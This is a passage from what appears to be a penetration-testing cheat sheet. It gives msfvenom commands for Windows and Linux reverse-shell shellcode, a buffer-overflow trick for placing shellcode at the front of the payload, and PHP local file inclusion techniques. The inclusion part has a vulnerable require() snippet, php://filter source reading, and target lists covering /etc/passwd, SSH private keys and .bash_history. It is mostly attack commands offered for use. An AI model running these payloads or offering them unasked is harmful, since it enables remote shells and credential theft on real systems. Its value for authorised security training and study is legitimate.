 ```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"
```
**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP EAX/EBX/ECX/EDX
```

3. Append the address as shell code.
4. Add payload to the front


## File Inclusion

[Exploiting PHP File Inclusion – Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)

Add %00 to test if the file is adding .php to the filename < before php version 5.3
Add ? to act as another parameter

include will execute the file. Others will not

### Local File inclusion
```php
$file = $_GET['page'];
require($file);
```
check with files that generally can be accessed
/etc/passwd
/etc/hostname
/etc/hosts

read php file
```
php://filter/convert.base64-encode/resource=<file name/Path> e.g. index
echo "<output>" |base64 -d
```
.htaccess
config.php in web root folder?

root/user ssh keys? .bash_history?
/.ssh/id_rsa
/.ssh/id_rsa.keystore
/.ssh/id_rsa.pub
/.ssh/authorized_keys
/.ssh/known_hosts
